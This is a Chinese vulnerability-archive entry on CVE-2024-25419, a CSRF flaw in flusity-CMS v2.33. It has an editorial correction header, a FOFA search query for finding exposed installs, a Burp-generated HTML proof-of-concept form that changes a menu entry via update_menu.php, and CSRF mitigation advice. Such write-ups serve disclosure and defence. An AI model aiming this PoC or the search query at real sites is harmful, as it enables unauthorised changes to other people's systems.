






# CVE-2024-25419

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：flusity-CMS
- 文献类型：CSRF复现与防护说明
- 版本、权限及部署边界：v2.33；已登录且可修改菜单的用户提交跨站POST，cookie SameSite和浏览器行为未说明
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 实际演示修改菜单，不能直接推出信息泄露或获得系统未授权访问，后果需额外链证据
2. 表单包含手工Submit按钮，不是仅打开即自动提交；需说明跨站源、用户交互与会话cookie是否发送
3. 把服务器保存并验证token称双重提交不准确，需区分同步token和双重提交cookie模式
4. POST本身不防CSRF，SameSite也不意味着浏览器只发送同站请求；防护段同义token重复并缺正确Origin/Referer解释
5. 有源码URL但无固定commit/修复版本，全文背景远多于实际入口分析

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://github.com/flusity/flusity-CMS>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 fgz  AI与网安   2024-03-03 10:48  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
flusity-2.33 CSRF漏洞  
  
  
02  
  
—  
  
CSRF漏洞原理  
  
  
  
  终于遇到一个热乎的CSRF漏洞，虽然覆盖面小，但还是学习下，先了解下什么是CSRF。  
  
  CSRF（Cross-site request forgery）跨站请求伪造，是一种劫持用户身份，以用户名义进行非预期操作，通常发生在用户在访问恶意网站或收到恶意邮件后。  
  
  攻击者通过一些方式诱使用户进入一个恶意网站，然后在该站点中插入一个链接或表单，该链接或表单通过用户的浏览器发出非预期的请求，伪造用户身份执行某种操作，如修改密码、转账、发布帖子等。  
  
  CSRF与XSS听起来很像，但攻击方式完全不同。  
XSS攻击是利用受信任的站点攻击客户端用户，而CSRF是伪装成受信任的用户攻击受信任的站点。  
  
  
  
  
条件：  
- 用户已经登录了目标网站或应用程序。  
  
- 目标网站或应用程序没有使用CSRF令牌来保护请求。  
  
- 攻击者能够构造出伪造的请求并将其发送到目标网站或应用程序。  
  
- 用户在浏览器中打开了恶意网站或点击了恶意链接，从而使攻击者能够利用用户的身份进行 CSRF 攻击。  
  
03  
  
—  
  
漏洞影响  
  
  
flusity-CMS v2.33版本  
  
开源地址：https://github.com/flusity/flusity-CMS  
  
  
  
  
  
04  
  
—  
  
漏洞描述  
  
  
flusity-CMS v2.33中的组件/core/tools/update_menu.php存在跨站请求伪造（CSRF）漏洞。攻击者可以通过利用该漏洞来执行未经授权的操作，可能导致用户的信息泄露或攻击者获取对系统的未授权访问权限。建议及时升级软件版本或采取其他安全措施来修复该漏洞。  
  
  
05  
  
—  
  
FOFA搜索语句  
  
  
```
icon_hash="1107917621"
```  
  
  
  
  
  
06  
  
—  
  
漏洞复现  
  
  
  
  
  
POC  
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/core/tools/update_menu.php" method="POST">
      <input type="hidden" name="action" value="update&#95;menu" />
      <input type="hidden" name="menu&#95;id" value="12" />
      <input type="hidden" name="menu&#95;name" value="Kontaktai123" />
      <input type="hidden" name="lang&#95;menu&#95;name" value="Contact" />
      <input type="hidden" name="page&#95;url" value="contacts" />
      <input type="hidden" name="position" value="2" />
      <input type="hidden" name="template" value="template&#95;contacts" />
      <input type="hidden" name="show&#95;in&#95;menu" value="1" />
      <input type="hidden" name="parent&#95;id" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```  
  
  
  
  
漏洞复现成功  
  
  
  
  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版。  
  
  
  
08  
  
—  
  
CSRF防范建议  
  
  
1. 使用 CSRF 令牌：  
  
在用户登录后为每个用户生成一个唯一的 CSRF 令牌，并在用户发起 POST 请求时将该令牌作为一个隐藏字段或请求头信息一同提交到服务器。服务器会对提交的 CSRF 令牌进行验证，只有在令牌正确的情况下才会接受该请求并执行相应操作。这种方式被称为 CSRF 防御的 “双重提交” 策略，可以有效地防范 CSRF 攻击。  
  
2. 检查来源站点：  
  
服务器可以检查请求来源站点，如果来源站点不是当前用户正在访问的站点，则拒绝该请求。这种方式需要服务器端的支持，且可能会降低用户的使用体验。  
  
3. 避免使用敏感操作的 GET 请求：  
  
敏感操作，例如修改密码、转账等，不应该使用 GET 请求，因为 GET 请求的参数可以被直接暴露在 URL 中，容易被攻击者利用。应该使用 POST 请求或其他安全的方式来进行敏感操作。  
  
4. 设置 SameSite 属性：  
  
SameSite 属性可以防止跨站点请求伪造攻击，它可以告诉浏览器只有来自同一站点的请求才应该被发送到服务器，可以在 cookie 中设置 SameSite 属性来实现。  
  
5. 使用反 CSRF 令牌：  
  
反 CSRF 令牌是在请求中添加一个特定的参数来表示该请求是用户主动发起的，而不是被恶意网站发起的。服务器端会验证该参数的合法性，如果该参数不存在或不正确，则认为该请求是恶意的并拒绝执行。  
  
  
  
09  
  
—  
  
新粉丝福利领取  
  
  
在公众号主页或者文章末尾点击发送消息免费领取。  
  
发送【  
电子书】关键字获取电子书  
  
发送【  
POC】关键字获取POC  
  
发送【  
工具】获取渗透工具包  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
